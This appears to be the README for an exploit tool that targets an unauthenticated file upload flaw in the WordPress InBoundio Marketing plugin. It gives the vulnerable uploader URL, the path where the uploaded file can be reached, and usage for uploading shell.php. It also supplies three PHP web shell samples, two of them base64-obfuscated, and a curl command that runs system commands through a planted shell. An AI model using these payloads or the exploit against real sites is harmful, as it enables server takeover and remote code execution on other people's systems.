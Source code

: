 - WordPress plugin InBoundio Marketing Shell Upload / INURL - BRASIL
------
```
  # AUTOR:        Cleiton Pinheiro / Nick: googleINURL
  # Blog:         http://blog.inurl.com.br
  # Twitter:      https://twitter.com/googleinurl
  # Fanpage:      https://fb.com/InurlBrasil
  # Pastebin      http://pastebin.com/u/Googleinurl
  # GIT:          https://github.com/googleinurl
  # PSS:          http://packetstormsecurity.com/user/googleinurl
  # YOUTUBE:      http://youtube.com/c/INURLBrasil
  # PLUS:         http://google.com/+INURLBrasil
```
-   Vendor
------
http://www.inboundio.com

-   Vulnerability Description
------
WordPress plugin (InBoundio Marketing) remote shell upload vulnerability.

-   Tool Description
------
The script makes file upload without permission

-   REQUEST POST SEND
------
```
array('file' => "@_YOU_FILE")
```

-   URL REQUEST SEND
------
```
http://{target}/wp-content/plugins/inboundio-marketing/admin/partials/csv_uploader.php
```

-   URL FILE ACCESS
------
```
http://{target}/wp-content/plugins/inboundio-marketing/admin/partials/uploaded_csv/_YOU_FILE
```

-   EXECUTE EXPLOIT
------
```
   -t : SET TARGET.
   -f : SET FILE UPLOAD.
   Execute:
                 php xlp.php -t target -f shell.php
```

-   OUTPUT VULN
------
filename: Exploit_AFU.txt

-   EXEMPLE SHELL UPLOAD
------
```
[+] MODEL-01 CODE >>
<?php $__=@base64_decode("c3lzdGVt");echo@$__(isset($_REQUEST[0])?$_REQUEST[0]:NULL);?>
 
[+] MODEL-02 CODE >>
<?php echo(`{$_REQUEST[0]}`);?>
 
[+] MODEL-03 CODE >>
<?php $_=$_REQUEST[0];@$__=@create_function('$_',base64_decode("ZWNobyhzaGVsbF9leGVjKCRfKSk7"));@$__($_);
 
# EXECUTE: curl "http://localhost/of.php?0=uname%20-a%20%26%26%20ls%20-la"
```
-   REFERENCE
------
[1] http://pastebin.com/D07wPKmA
[2] http://k3dsec.blogspot.com/2015/03/wordpress-plugin-inboundio-marketing.html
[3] http://blog.inurl.com.br/2015/03/inurl-brasil-simple-shell-backdoor.html
